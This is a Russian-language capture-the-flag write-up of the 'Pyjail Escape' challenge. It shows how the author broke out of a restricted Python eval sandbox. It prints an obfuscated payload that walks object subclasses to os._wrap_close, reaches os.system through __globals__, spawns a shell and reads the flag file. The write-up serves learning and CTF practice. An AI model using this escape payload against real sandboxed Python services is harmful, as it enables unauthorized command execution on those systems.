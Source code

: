 # Pyjail Escape (101 points, 67 solves)

> Python leave you must, to be master real!

Данный челлендж является продолжением [Pyjail ATricks](../Pyjail%20ATricks), поэтому я не буду повторять некоторые 
моменты.

Что же, из описания очевидно, что нам нужно как-то выйти из python тюрьмы. К этому моменту у меня уже было достаточно
знаний из изучения подобных задач. Очевидные попытки обратиться к `import`, `__import__`, `__builtins__` и подобным не
увенчались успехом. Тогда я дошёл до вывода всех доступных классов:

```python
>>> a = 1
# вводим 'a.__class__.__base__.__subclasses__()'
>>> a = eval("a.__class__.__"+eval("a.__doc__[27]")+"ase__.__s"+eval("a.__doc__[111]+a.__doc__[27]")+"classes__()")
[<class 'type'>, <class 'weakref'>, <class 'weakcallableproxy'>, <class 'weakproxy'>, <class 'int'>, 
<class 'bytearray'>, <class 'bytes'>, <class 'list'>, <class 'NoneType'>, <class 'NotImplementedType'>, 
<class 'traceback'>, <class 'super'>, <class 'range'>, <class 'dict'>, <class 'dict_keys'>, <class 'dict_values'>, 
<class 'dict_items'>, <class 'odict_iterator'>, <class 'set'>, <class 'str'>, <class 'slice'>, <class 'staticmethod'>, 
<class 'complex'>, <class 'float'>, <class 'frozenset'>, <class 'property'>, <class 'managedbuffer'>,
<class 'memoryview'>, <class 'tuple'>, <class 'enumerate'>, <class 'reversed'>, <class 'stderrprinter'>, 
<class 'code'>, <class 'frame'>, <class 'builtin_function_or_method'>, <class 'method'>, <class 'function'>, 
<class 'mappingproxy'>, <class 'generator'>, <class 'getset_descriptor'>, <class 'wrapper_descriptor'>, 
<class 'method-wrapper'>, <class 'ellipsis'>, <class 'member_descriptor'>, <class 'types.SimpleNamespace'>, 
<class 'PyCapsule'>, <class 'longrange_iterator'>, <class 'cell'>, <class 'instancemethod'>, 
<class 'classmethod_descriptor'>, <class 'method_descriptor'>, <class 'callable_iterator'>, <class 'iterator'>, 
<class 'coroutine'>, <class 'coroutine_wrapper'>, <class 'EncodingMap'>, <class 'fieldnameiterator'>, 
<class 'formatteriterator'>, <class 'filter'>, <class 'map'>, <class 'zip'>, <class 'moduledef'>, <class 'module'>, 
<class 'BaseException'>, <class '_frozen_importlib._ModuleLock'>, <class '_frozen_importlib._DummyModuleLock'>, 
<class '_frozen_importlib._ModuleLockManager'>, <class '_frozen_importlib._installed_safely'>, 
<class '_frozen_importlib.ModuleSpec'>, <class '_frozen_importlib.BuiltinImporter'>, <class 'classmethod'>, 
<class '_frozen_importlib.FrozenImporter'>, <class '_frozen_importlib._ImportLockContext'>, 
<class '_thread._localdummy'>, <class '_thread._local'>, <class '_thread.lock'>, <class '_thread.RLock'>, 
<class '_frozen_importlib_external.WindowsRegistryFinder'>, <class '_frozen_importlib_external._LoaderBasics'>, 
<class '_frozen_importlib_external.FileLoader'>, <class '_frozen_importlib_external._NamespacePath'>, 
<class '_frozen_importlib_external._NamespaceLoader'>, <class '_frozen_importlib_external.PathFinder'>, 
<class '_frozen_importlib_external.FileFinder'>, <class '_io._IOBase'>, <class '_io._BytesIOBuffer'>, 
<class '_io.IncrementalNewlineDecoder'>, <class 'posix.ScandirIterator'>, <class 'posix.DirEntry'>, 
<class 'zipimport.zipimporter'>, <class 'codecs.Codec'>, <class 'codecs.IncrementalEncoder'>, 
<class 'codecs.IncrementalDecoder'>, <class 'codecs.StreamReaderWriter'>, <class 'codecs.StreamRecoder'>, 
<class '_weakrefset._IterationGuard'>, <class '_weakrefset.WeakSet'>, <class 'abc.ABC'>, 
<class 'collections.abc.Hashable'>, <class 'collections.abc.Awaitable'>, <class 'collections.abc.AsyncIterable'>, 
<class 'async_generator'>, <class 'collections.abc.Iterable'>, <class 'bytes_iterator'>, <class 'bytearray_iterator'>, 
<class 'dict_keyiterator'>, <class 'dict_valueiterator'>, <class 'dict_itemiterator'>, <class 'list_iterator'>, 
<class 'list_reverseiterator'>, <class 'range_iterator'>, <class 'set_iterator'>, <class 'str_iterator'>, 
<class 'tuple_iterator'>, <class 'collections.abc.Sized'>, <class 'collections.abc.Container'>, 
<class 'collections.abc.Callable'>, <class 'os._wrap_close'>, <class '_sitebuiltins.Quitter'>, 
<class '_sitebuiltins._Printer'>, <class '_sitebuiltins._Helper'>]
```

Из интересных замечаем `<class 'os._wrap_close'>`. Мы можем воспользоваться данным классом, чтобы обратиться к другим
функциям из модуля `os`, а если конкретнее, то к `system`. Делается это так (117 - индекс `<class 'os._wrap_close'>`):

```python
>>> a = 1
# 'a.__class__.__base__.__subclasses__()[117].__init__.__globals__["system"]("sh")'
>>> a = eval('eval("a.__class__.__"+eval("a.__doc__[27]")+"ase__.__s"+eval("a.__doc__[111]+a.__doc__[27]")+"classes__()")[117].__init__.__glo'+eval("a.__doc__[27]")+'als__["s'+eval("a.__doc__[312]")+'ste'+eval("a.__doc__[112]")+'"]("s'+eval("a.__doc__[270]")+'")')
# тут мы уже выбрались из тюрьмы
$ ls
LOS7Z9XYZU8YS89Q24PPHMMQFQ3Y7RIE.txt pyjail.py ynetd
$ cat *.txt
ALLES{th1s_w4s_a_r34l_3sc4pe}
```

Флаг наш!

*Примечание:* конечно же, я не удержался и прочитал [pyjail.py](../pyjail.py), ибо мне было интересно, как всё было 
устроено. Выкладываю этот файл для всех любопытных. 

Кстати, решив это задание, мы "бесплатно" получаем решение предыдущего. Меня удивил тот факт, что были люди, решившие это задание,
но не справившиеся с предыдущим. А ведь им всего лишь нужно было прочитать pyjail.py...